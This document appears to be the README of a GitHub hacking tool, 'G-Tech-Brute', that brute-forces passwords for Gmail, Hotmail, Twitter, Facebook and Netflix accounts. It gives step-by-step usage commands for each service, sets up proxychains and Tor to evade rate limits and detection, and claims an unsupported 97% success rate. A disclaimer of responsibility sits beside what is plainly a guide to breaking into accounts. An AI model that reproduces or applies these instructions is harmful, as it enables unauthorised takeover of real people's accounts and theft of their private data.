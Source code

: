 # G-Tech-Brute

### I am NOT taking any responsibility!

## Brute Force for Social Accounts

Hacking toolkit for multible social media accounts. Brute force will give you the correct password almost everytime (97%) if you follow the steps below. Works without proxies well but sometimes it gives a error like this:

```bash 
File "/usr/lib/python3.10/smtplib.py", line 739, in login
    (code, resp) = self.auth(
  File "/usr/lib/python3.10/smtplib.py", line 642, in auth
    (code, resp) = self.docmd("AUTH", mechanism + " " + response)
  File "/usr/lib/python3.10/smtplib.py", line 432, in docmd
    return self.getreply()
  File "/usr/lib/python3.10/smtplib.py", line 405, in getreply
    raise SMTPServerDisconnected("Connection unexpectedly closed")
smtplib.SMTPServerDisconnected: Connection unexpectedly closed
 ```
 # Don't let that happen, let's set proxies.
 --------
 
 ## Setting up the proxy
 
 After clonning the repository in **/root** go to-
 ```bash 
 /root/G-Tech/Proxy/Proxy-List.txt
 ```
 Copy 4-5 proxy and go to terminal/terminal emulator
 
 ```bash 
 nano /etc/proxychains4.conf
 ```
 
 Set the proxies as raw. Then reboot your device and "service tor start", now we are fully ready to start hacking!
 --------
 
 # Starting the Tool
 
 G-Tech doesn't need dependencies pr requirements. All it needs is YOU to brute force.
 go to:
 
 ```bash
 /root/G-Tech
 ```
 Then open a terminal there and write:
 
 ```bash
 python3 G-Tech.py -h
 ```
 It bring you a help menu, now you start brute-forcing;
 
 ## Gmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l wordlist here
 python3 G-Tech.py -g/--gmail accounthere@gmail.com -l single password here
 ```
 ## Hotmail Brute Forcing
 
 ```bash
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l wordlist here
 python3 G-Tech.py -t/--hotmail accounthere@hotmail -l single password here
 ```
 
 ## Twitter Brute Forcing
 
 ```bash
  python3 G-Tech.py -T/--twitter accountnamehere -l wordlist here
  python3 G-Tech.py -T/--twitter accountnamehere -l single password here
  ```
  
  ## Facebook Brute Forcing
  
  ```bash
  python3 G-Tech.py -f/--facebook accountnamehere/username -l wordlist here
  python3 G-Tech.py -f/--facebook accountnamehere/username -l single password here
  ```
  
  ## Netflix Brute Forcing
  VPN Recommended (Like ProtonVPN, OpenVPN or NordVPN)
  
  ```bash
  python3 G-Tech.py -n/--netflix accountnamehere -l wordlist here
  python3 G-Tech.py -n/--netflix accountnamehere -l single password here
  ```
  
  
  
  
  
  
  That was all for me, I hope you won't anything illegal, because I am NOT taking any responsibility!
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 

